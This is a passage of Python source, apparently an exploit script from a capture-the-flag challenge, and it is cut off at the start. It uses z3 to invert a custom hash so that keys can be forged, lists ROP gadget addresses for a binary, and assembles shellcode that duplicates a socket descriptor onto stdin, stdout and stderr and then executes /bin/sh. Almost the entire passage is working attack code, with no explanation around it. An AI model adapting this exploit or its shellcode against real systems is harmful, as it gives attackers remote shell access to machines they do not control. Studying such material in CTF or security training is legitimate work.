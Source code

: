 ``` python
    x = hook(m64(x * 0xa165c8277))
    x = hook(shift(x, 10) ^ x)
    x = hook(m64(x * 0xa165c8277))
    x = hook(shift(x, 17) ^ x)
    return x

def hmac(s, shift=(lambda x, y: x >> y), hook=(lambda x: x)):
    if isinstance(s, str):
        assert len(s) == 0x5e8
        sm = xorsum(s)
        k1 = u64(s[0x5d8 : 0x5e0])
        k2 = u64(s[0x5e0 : 0x5e8])
    else:
        sm, k1, k2 = s
    x = murmur1([sm ^ 0x5c5c5c5c5c5c5c5c, k1, k2], 0x0defacedbaadf00d, shift=shift, hook=hook)
    y = murmur1([0x3636363636363636, x],           0xfaceb00ccafebabe, shift=shift, hook=hook)
    return y

def unhmac(value):
    import z3
    sm = z3.BitVec('sm', 64)
    k1 = z3.BitVec('k1', 64)
    k2 = z3.BitVec('k2', 64)
    solver = z3.Solver()
    def newvar(x, i=[0]):
        y = z3.BitVec('t.' + str(i[0]), 64)
        i[0] += 1
        solver.add(y == x)
        return y
    solver.add(hmac([sm, k1, k2], shift=z3.LShR, hook=newvar) == value)
    solver.check()
    model = solver.model()
    sm = int(model[sm].as_long())
    k1 = int(model[k1].as_long())
    k2 = int(model[k2].as_long())
    return sm, k1, k2

pop_rsi_rdi_ret = 0x40011b # pop rsi ; pop rdi ; ret
mov_eax_esi_ret = 0x400e99 # mov eax, esi ; ret
pop_rcx_mov_rax_r14_ret = 0x00400e97 # pop rcx ; mov rax, r14 ; ret
add_rax_cl_ret = 0x401387 # add byte ptr [rax - 0x39], cl ; ret 0
pop_rdi_ret = 0x0040011c # pop rdi ; ret
static = 0x601000
shellcode_addr = static + 0xccc
mov_rdi_rsi_ret = static + 0xbbb

mov_rdi_rsi_ret_asm = asm('mov qword ptr [rdi], rsi ; ret')

shellcode = ''
for fd in [0, 1, 2]:
    shellcode += asm('mov rax, SYS_dup2')
    shellcode += asm('mov rdi, [rbp-0x8]')
    shellcode += asm('mov rsi, %d' % fd)
    shellcode += asm('syscall')
shellcode += asm('mov rax, SYS_execve')
shellcode += asm('mov rbx, 0x%x' % u64('/bin/sh\0'))
shellcode += asm('push rbx')
shellcode += asm('mov rdi, rsp')
shellcode += asm('push 0')
shellcode += asm('mov rdx, rsp')
shellcode += asm('push rdi')
shellcode += asm('mov rsi, rsp')
shellcode += asm('syscall')
```